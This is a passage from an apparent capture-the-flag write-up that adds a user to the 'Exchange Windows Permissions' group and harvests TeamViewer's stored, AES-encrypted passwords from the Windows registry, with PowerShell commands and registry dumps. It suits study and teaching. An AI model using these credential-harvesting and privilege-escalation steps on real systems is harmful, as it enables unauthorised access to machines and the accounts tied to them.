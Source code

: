 ```
net group "Exchange Windows Permissions" /add username
```

### TeamViewer

```
PS C:\> tasklist | findstr /i 'TeamViewer'
TeamViewer_Service.exe        3048                            0     18,404 K
```

TeamViewer is a remote management software. Since this is the server, it will have credentials used for others to connect to it.

I can get the version by looking in the `\Program Files (x86)\TeamViewer`:

```
PS C:\Program Files (x86)\TeamViewer> ls


    Directory: C:\Program Files (x86)\TeamViewer


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/27/2020  10:35 AM                Version7
```

There’s a list of registry keys, and the one that looks like version 7 is `HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`. For each location, it looks for the following values:

OptionsPasswordAES SecurityPasswordAES SecurityPasswordExported ServerPasswordAES ProxyPasswordAES LicenseKeyAES

I can take a look at that registry key:

```
PS C:\Program Files (x86)\TeamViewer> cd HKLM:\software\wow6432node\teamviewer\version7
PS HKLM:\software\wow6432node\teamviewer\version7> get-itemproperty -path .


StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B9641D}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1584564540
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer\vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer
PSChildName               : version7
PSDrive                   : HKLM
```
